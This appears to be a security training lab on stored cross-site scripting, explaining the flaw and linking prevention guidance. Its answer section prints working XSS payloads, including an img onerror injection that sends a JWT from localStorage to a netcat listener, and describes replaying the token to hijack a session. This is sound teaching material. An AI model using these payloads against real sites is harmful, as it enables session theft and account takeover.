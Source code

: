 # XSS - Cross Site Scripting

XSS or Cross site scripting is one of the most common vulnerabilities and also one that plagues developers of client side applications in JavaScript. With so many frameworks out there, it becomes challenging to determine what is being rendered and how. A stored XSS attack is one in which an attacker is able to inject arbitrary JavaScript onto a page and have that JavaScript be rendered by another user.

This is especially dangerous on pages that have some type of authentication since authentication tokens can easily be sent to another site via JavaScript.

The best ways to prevent XSS are all cataloged here:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md

**TL;DR: Sanitize all values just before you render them.**

Example:
You have an HTML template you would like to render with a username value as a `data` attribute such as this:

```
<div data-username="<%= @username %>">
...
</div>
```

If the user is able to update their username value, which is stored on the server, they could adjust the HTML to run their own scripts on others' computers on your site:

```
"><script>alert('pwned!')</script><div class="
```


# Lab

Navigate to http://localhost:1337 and you'll be presented with a login page. Now that we have `rick`'s password, let's use that to log into the site. Let's try adding some comments and see what we can do.

<details>
  <summary>Answer</summary>

  It turns out that the comment field is only minimally sanitized before the page renders. This is extremely common especially when sites want to allow users to insert their own HTML for things like adding photos, customizing rich text documents like blogs or creating branded emails.

  As a test, what we can do is something like this:

  ```
  <script>alert('pwned')</script>
  ```

  We notice that the comment is not even rendered. We can open up the developer panel on the right and inspect the JavaScript for `index.js`. We notice that the developer only "sanitized" by removing the ablity for the script tag, but there are many other ways to execute an XSS attack.

  For a fairly comprehensive listing of how this can be achieved, have a look at: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

  Now let's try something a bit more nasty. An alert is silly and fun but what if you wanted to make a quick and easy credential grab after you execute an XSS vulnerability.

  In a terminal, let's start a `netcat` listener:

  * On Mac: `sudo nc -l 18200`
  * On Linux: `sudo nc -l -p 18200`
  * On Windows (as Administrator): `nc -l -p 18200`

  Now let's try to grab the session token from localStorage (this could just as easily be `document.cookie`)

  ```
  <img src="." onerror=$.get('http://localhost:18200/'+localStorage.jwt)>"
  ```

  Since that HTML doesn't have `<script>` in it, it passes and renders creating an HTTP request to your listener on your localhost that looks something like this:

  ```
  $ sudo nc -l 18200

  Host: localhost:18200
  Connection: keep-alive
  Access-Control-Request-Method: GET
  Origin: null
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.109 Safari/537.36
  Access-Control-Request-Headers: x-auth-token
  Accept: */*
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  ```

  That bit after options is the valid [jwt](https://jwt.io) token sent via the URL path which will allow access to the site. As an attacker, all you have to do is set your own `localStorage.jwt` value to that string in your browser and you're in without even needing to knowing the password. That being said, for most sessions, you'll only have access until the session has timed out, but for many sites, this is  plenty of time to do significant damage.

  **Followup Question** What are some ways you can think of to add security controls to prevent damage even if a session token is compromised?
</details>
